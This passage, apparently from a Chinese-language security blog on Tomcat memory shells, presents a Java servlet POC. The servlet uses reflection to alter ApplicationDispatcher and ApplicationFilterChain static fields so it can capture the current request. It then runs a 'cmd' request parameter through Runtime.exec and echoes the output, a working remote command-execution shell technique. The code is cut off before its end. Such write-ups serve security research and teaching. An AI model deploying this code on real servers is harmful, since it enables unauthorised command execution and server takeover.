 ## 反射构造回显

所以接下来的目标就是通过反射修改 WRAP\_SAME\_OBJECT 的值为 true，同时初始化 lastServicedRequest 和 lastServicedResponse

POC：

```bash
package memoryshell.UnserShell;

import org.apache.catalina.core.ApplicationFilterChain;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;


public class getRequest extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp){
        try {
            Field WRAP_SAME_OBJECT_FIELD = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
            Field lastServicedRequestField = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
            Field lastServicedResponseField = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");

            //修改static final
            setFinalStatic(WRAP_SAME_OBJECT_FIELD);
            setFinalStatic(lastServicedRequestField);
            setFinalStatic(lastServicedResponseField);

            //静态变量直接填null即可
            ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(null);
            ThreadLocal<ServletResponse> lastServicedResponse = (ThreadLocal<ServletResponse>) lastServicedResponseField.get(null);

            String cmd = lastServicedRequest!=null ? lastServicedRequest.get().getParameter("cmd"):null;

            if (!WRAP_SAME_OBJECT_FIELD.getBoolean(null) || lastServicedRequest == null || lastServicedResponse == null){
                WRAP_SAME_OBJECT_FIELD.setBoolean(null,true);
                lastServicedRequestField.set(null,new ThreadLocal());
                lastServicedResponseField.set(null,new ThreadLocal());
            } else if (cmd!=null){
                InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();
                byte[] bcache = new byte[1024];
                int readSize = 0;
                try(ByteArrayOutputStream outputStream = new ByteArrayOutputStream()){
                    while ((readSize =in.read(bcache))!=-1){
                        outputStream.write(bcache,0,readSize);
                    }
                    lastServicedResponse.get().getWriter().println(outputStream.toString());
                }
            }
```